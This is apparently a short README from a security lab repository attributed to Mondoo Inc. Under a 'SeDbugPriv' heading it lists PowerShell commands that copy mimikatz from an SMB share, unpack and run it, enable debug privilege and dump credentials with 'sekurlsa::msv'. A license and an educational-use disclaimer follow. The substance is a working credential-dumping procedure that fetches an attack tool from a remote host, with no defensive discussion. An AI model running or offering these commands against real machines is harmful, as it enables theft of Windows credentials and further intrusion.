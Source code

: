 ### SeDbugPriv

~~~ powershell
Copy-Item \\192.168.56.1\smb\mimikatz_trunk.zip -Destination C:\Windows\Temp\

cd C:\Windows\Temp\

Expand-Archive mimikatz_trunk.zip

cd mimikatz_trunk\x64

.\mimikatz.exe

privilege::debug

sekurlsa::msv
~~~

## License and Author

* Author:: Mondoo Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.